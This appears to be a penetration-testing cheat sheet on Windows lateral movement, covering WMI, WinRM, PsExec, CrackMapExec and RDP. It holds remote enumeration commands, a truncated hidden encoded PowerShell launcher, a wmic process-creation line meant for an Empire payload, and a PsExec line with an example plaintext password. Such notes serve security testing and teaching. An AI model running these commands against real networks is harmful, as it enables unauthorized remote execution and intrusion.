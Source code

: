 - Can query remotely.
- Logging for WMI events is disabled by default: https://msdn.microsoft.com/en-us/library/windows/desktop/aa826686(v=vs.85).aspx
```
wmic
wmic> /node:"machinename" /user:"username" computerystem list full /format:list
```
- Local admins on a remote machine
```
wmic /node:ordws01 path win32_groupuser where (groupcomponent="win32_group.name=\"administrators\",domain=\"ORDWS01\"")  
```
- Who is logged-in: `wmic /node:ordws01 path win32_loggedonuser get antecedent`
- Read nodes from text file: `wmic /node:@workstations.txt path win32_loggedonuser get antecedent  `
- Execute command:
```
powershell.exe -NoP -sta -NonI -W Hidden -Enc JABXAEMAPQBOAEUAVwAtAE8AQgBKAGUAQw...truncated...  
```
```
wmic /node:ordws01 /user:CSCOU\jarrieta path win32_process call create "**empire launcher string here**"  
```
- Used in:
    - https://github.com/samratashok/nishang
    - https://github.com/PowerShellMafia/PowerSploit
    - CrackMapExec
    - wmiexec.py
    - wmis

### Windows Remote Management (WinRM)
- 5985/tcp (HTTP) / 5986/tcp (HTTPS)
- Allows remote management of Windows machines over HTTP(S) using SOAP.
- On the backend it's utilizing WMI.
- Enable: `Enable-PSRemoting -Force Set-Item wsman:\localhost\client\trustedhosts *`
- Test if target is configured for WinRM: `Test-WSMan machinename`
- Execute command: `Invoke-Command -Computer ordws01 -ScriptBlock {ipconfig /all} -credential CSCOU\jarrieta  `
    - Command line: `Enter-PSSession -Computer ordws01 -credential CSCOU\jarrieta `
- Force enabling WinRM:
```
PS C:\tools\SysinternalsSuite> .\PsExec.exe \\ordws04 -u cscou\jarrieta -p nastyCutt3r -h -d powershell.exe "enable-psremoting -force"  
```

### CrackMapExec
- "-x" parameter to send commands.
- wmiexec.py across multiple IPs

### Using Remote Desktop
- Impacket's rdp_check to see if you have RDP access,
- Then use Kali's rdesktop to connect:
